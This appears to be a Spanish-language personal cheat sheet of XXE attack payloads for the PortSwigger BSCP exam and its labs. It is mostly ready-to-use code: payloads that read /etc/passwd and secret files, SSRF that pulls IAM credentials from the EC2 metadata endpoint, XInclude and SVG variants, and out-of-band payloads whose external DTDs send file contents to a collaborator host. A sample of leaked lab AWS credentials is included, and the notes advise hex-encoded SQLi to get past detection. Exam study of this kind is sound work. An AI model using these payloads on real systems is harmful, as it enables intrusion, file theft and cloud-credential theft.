 ## ¿Qué es XML?

XML significa "lenguaje de marcado extensible". XML es un lenguaje diseñado para almacenar y transportar datos. Al igual que HTML, XML utiliza una estructura de etiquetas y datos similares a árboles. A diferencia de HTML, XML no usa etiquetas predefinidas, por lo que las etiquetas pueden recibir nombres que describan los datos. Anteriormente en la historia de la web, XML estaba de moda como un formato de transporte de datos (el "X" en "AJAX" significa "XML"). Pero su popularidad ha declinado ahora a favor del formato JSON.

#### Si ninguno de estos ataques funciona y el ataque es `detected attack` toca un SQLi injection encodeado a Hex, en la sección de SQLi lo tengo detallado. 

#sqli

```xml
<!DOCTYPE test [<!ENTITY xxe SYSTEM "http://169.254.169.254/">]>
No olvidar llamar la variable &xxe; dentro de <productId>&xxe;<productId/>
```

- XXE -> Basic LFI

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE productId [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<stockCheck><productId>&test;</productId><storeId>1</storeId></stockCheck>
```

- XXE -> SSRF

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM 'http://169.254.169.254/'>]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>

Seguir el endpoint hasta donde podemos llegar, en el lab por ejm es así: 
<!DOCTYPE foo [ <!ENTITY test SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
```

- XXE -> Out of Band Interaction

```html
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM 'http://COLLABORATOR'>]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

- XXE -> Blind with out-of-band interaction

```xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM 'http://BURP-COLLAB'>]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck> 
```

- XXE -> Out of Band Interaction via parameter entity `external service interaction`

![burp-scan](Pasted%20image%2020250221075203.png)

```html
<?xml version="1.0" encoding="UTF-8"?>
simplemente añadimos este encima de <stockCheck>
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://COLLABORATOR"> %xxe; ]>

```

- XXE -> Exfiltrate data with .DTD `server exploit` `external service interaction`

	* Puede que haya submit feedback, como distractor con *subida de imagenes* y que tales, no le pare bolas a ese care chimba distractor Felipe!!!

```js
//dejar el server exploit con /testing.dtd -->

<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://COLLABORATOR?x=%file;'>">
%eval;
%exfiltrate;

//En el endpoint del lab que contenga la request con el XML añadir lo siguiente: 

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://SERVER-EXPLOIT/testing.dtd"> %xxe; ]>
<stockCheck><productId>2</productId><storeId>2</storeId></stockCheck>

//luego analizar nuestro burp collaborator para ver si nos llega algo interesante de lo que pasamos. 

//PARA EL BSCP: 
<!ENTITY % file SYSTEM "file:///home/carlos/secret">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://OASTIFY.COM/?x=%file;'>">
%eval;
%exfil;
```

- XXE -> Exfiltrate data via error messages `server exploit` `External service interaction`

```xml
//dejar el server exploit con /testing.dtd -->

<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///invalid/%file;'>">
%eval;
%error;

//En el endpoint del lab que contenga la request con el XML añadir lo siguiente:

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % testingFelipe SYSTEM "http://SERVER-EXPLOIT/testing.dtd"> %testingFelipe;]>
<stockCheck><productId>2</productId><storeId>2</storeId></stockCheck>
```

- XXE -> Use XInclude in a parameter (url encode the payload) `ProductId`
	- Podemos encodear el payload a url, o no, ya depende. 

```js
?productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>

//FOR BSCP: 
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///home/carlos/secret"/></foo>

or

<xi:include xmlns:xi="http://www.w3.org/2001/XInclude" href="{filePath}" parse="text"/>

```

* XXE -> Retrieving Data by a local DTD `docbookx.dtd` 
	El archivo local puede variar, dependiendo del lab. 

*![[Pasted image 20250216124148.png]]

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
<stockCheck><productId>2</productId><storeId>2</storeId></stockCheck> //si obtenemos un 200ok perfecto. 

//Ahora si, tiramos el comando esencial para producir el error de parsing de file local y desencadene el disclosure ->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"> <!ENTITY % ISOamso ' <!ENTITY &#x25; file SYSTEM "file:///etc/passwd"> <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>"> &#x25;eval; &#x25;error; '> %local_dtd; ]>
<stockCheck><productId>2</productId><storeId>2</storeId></stockCheck> 
//En este caso no necesitamos de un server externo para alojar el file ya que nos referimos a un archivo local existente en el server, basta con hacer la request directamente en el xml.
```

- XXE -> XXE on SVG

```html
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

### XXE to perform SSRF

```xml
The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is `http://169.254.169.254/`

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM 'http://169.254.169.254/'>]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM 'http://169.254.169.254/latest/meta-data/iam/security-credentials/admin'>]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>

Gives = "Invalid product ID: {
  "Code" : "Success",
  "LastUpdated" : "2024-01-04T10:03:06.016826989Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "ZgBxuLo1qUbadDsb5agi",
  "SecretAccessKey" : "62J0cLHKUttLOoKaXvTc55LgWDRLEuv7S6jfIQSc",
  "Token" : "tyIjMrJIsrPDFGSmR9u4hqFqjzxIx7yO9h8dshFOBPTNkBpvCY0jou4GcFhxBkzetcXYr8oWTS1uWYhyyxiStHap8tv6q83xWT8dHus70bXuuZjeD6w0jTzuQy1vakLar6k2apXbrrhj3fpZVNM7XKwPVTFPg2degLdeMSPCXRWgsD5D2Uoyjd9LkFMwLsdk2hFpIGW89uvX1xY4EKTNzipFL3irC3C2Jr49uCCtvDCGCEa6iwLeySLjttI5LUS7",
  "Expiration" : "2030-01-02T10:03:06.016826989Z"
}"


<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///Windows/System32/drivers/etc/hosts" > ]>

```

* ##### Abusing XInclude

```xml 
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>

productId=<foo+xmlns%3axi%3d"http%3a//www.w3.org/2001/XInclude"><xi%3ainclude+parse%3d"text"+href%3d"file%3a///etc/passwd"/></foo>&storeId=1
```

* ##### XXE on svg image

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```
 
 * #### xmlns load etc/passwd

```xml
<rpo+xmlns%3axi%3d"http%3a//www.w3.org/2001/XInclude"><xi%3ainclude+parse%3d"text"+href%3d"file%3a///etc/passwd"/></rpo>
```

eso sería todo,  si lees esto significa que estás revisando mi repo por todo lado, bueno mucha suerte en tu examen! 